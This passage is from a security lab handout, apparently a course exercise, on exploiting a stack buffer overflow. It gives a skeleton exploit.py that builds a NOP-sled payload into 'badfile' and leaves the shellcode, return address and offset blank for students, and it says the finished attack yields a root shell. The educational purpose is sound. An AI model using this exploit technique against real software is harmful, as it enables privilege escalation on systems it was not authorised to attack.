 To exploit the buffer-overflow vulnerability in the target program, we need to prepare a payload, and save it inside `badfile`. We will use a Python program to do that. We provide a skeleton program called `exploit.py`, which is included in the lab setup file. The code is incomplete, and students need to replace some of the essential values in the code.

**Listing 3:** exploit.py
```
#!/usr/bin/python
import sys

shellcode= (
    ""                 # ✩ Need to change ✩
).encode(’latin-1’)

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0             # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0x00            # ✩ Need to change ✩
offset = 0            # ✩ Need to change ✩

L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

After you finish the above program, run it. This will generate the contents for `badfile`. Then run the vulnerable program `stack`. If your exploit is implemented correctly, you should be able to get a root shell:
```
$./exploit.py     // create the badfile
$./stack-L1       // launch the attack by running the vulnerable program
# <---- Bingo! You’ve got a root shell!
```
In your lab report, in addition to providing screenshots to demonstrate your investigation and attack, you also need to explain how the values used in your `exploit.py` are decided. These values are the most important part of the attack, so a detailed explanation can help the instructor grade your report. Only demonstrating a successful attack without explaining why the attack works will not receive many points.

## 6 Task 4: Launching Attack without Knowing Buffer Size (Level 2)
